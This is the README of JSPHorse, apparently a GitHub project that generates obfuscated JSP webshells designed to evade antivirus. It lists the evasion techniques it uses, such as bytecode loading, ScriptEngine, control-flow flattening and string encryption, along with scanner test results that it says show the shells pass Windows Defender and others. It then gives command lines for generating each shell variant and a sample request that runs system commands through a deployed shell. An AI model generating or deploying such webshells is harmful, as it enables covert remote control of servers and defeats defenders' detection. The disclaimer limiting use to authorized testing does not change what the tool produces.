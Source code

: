 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

生成代码技术基于AST库`JavaParser`和字节码操作框架`ASM`

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- BCEL格式字节码反射加载免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- 自定义ClassLoader加载字节码免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造字节码(普通和BCEL)并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

![](https://github.com/EmYiQing/JSPHorse/blob/master/img/01.png)

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用自定义ClassLoader加载字节码

`java -jar JSPHorse.jar -p your_password --classloader`

- 用ASM动态生成字节码使用自定义ClassLoader加载

`java -jar JSPHorse.jar -p your_password --classloader-asm`

- 加载BCEL字节码免杀（动态构造字节码）

`java -jar JSPHorse.jar -p your_password --bcel`

- 用ASM动态生成BCEL字节码免杀

`java -jar JSPHorse.jar -p your_password --bcel-asm`

- 使用Proxy类的native方法`defineClass0`加载字节码

注意：原理是在JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效

但`JSPHorse`从字节码层面构造了不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用`defineClass0`加载ASM直接构造的字节码

注意：原理同上，只能执行一次

但`JSPHorse`每次生成的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --proxy-asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 其他

### Star

![](https://starchart.cc/EmYiQing/JSPHorse.svg)

### 推荐

从混淆程度来看，最高的应该是以下几种，也许会有较高的免杀效果

1. ASM动态生成BCEL字节码并加载：`--bcel-asm -u`
2. 使用ScriptEngine加载JS：`--js -u`
3. 使用Javac动态编译：`--javac -u`

### 计划

后续计划：
1. 参考网上已有的免杀Webshell思路以及各种新姿势逐渐完善
2. 目前在从代码方面混淆，是否可以尝试从字节码层面混淆以实现免杀
3. 是否可以多种免杀手段随机组合，生成再进一步的免杀Webshell

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

**未经授权许可使用`JSPHorse`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


